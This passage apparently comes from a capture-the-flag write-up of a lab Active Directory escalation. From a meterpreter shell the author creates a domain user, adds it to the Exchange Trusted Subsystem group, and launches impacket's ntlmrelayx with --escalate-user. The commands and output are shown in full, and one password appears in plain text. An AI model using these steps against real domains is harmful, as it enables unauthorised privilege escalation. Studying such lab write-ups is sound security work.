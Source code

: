 ## Exchange trusted subsystem and ntlmrelayx

Our `svc-alfresco` user got indirect right for the `Exchange trusted subsytem`
group.
For more information about the Active Directory Right:
[Documentation Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights).

Therefore we want to exploit our Exchange rights using
[PrivExchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

Let's create a user and add it in the `Exchange trusted subsytem` group.

    :::text
    meterpreter > shell
    Process 3256 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Users\svc-alfresco\Documents>net user created_01 M<redacted> /add /domain
    net user created_01 Marteau69! /add /domain
    The command completed successfully.

    C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM"
    net group "EXCHANGE TRUSTED SUBSYSTEM"
    Group name     Exchange Trusted Subsystem
    Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Exchange configuration, as well as user accounts and groups. This group should not be deleted.

    Members

    -------------------------------------------------------------------------------
    EXCH01$                  sol                      svc-alfresco
    The command completed successfully.


    C:\Users\svc-alfresco\Documents>net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    net group "EXCHANGE TRUSTED SUBSYSTEM" created_01 /add
    The command completed successfully.

We then launch [impacket's ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/)
with the `escalate-user` parameter. We try it by authenticating in our browser on 127.0.0.1.

    :::text
    ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user created_01
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Protocol Client SMTP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server

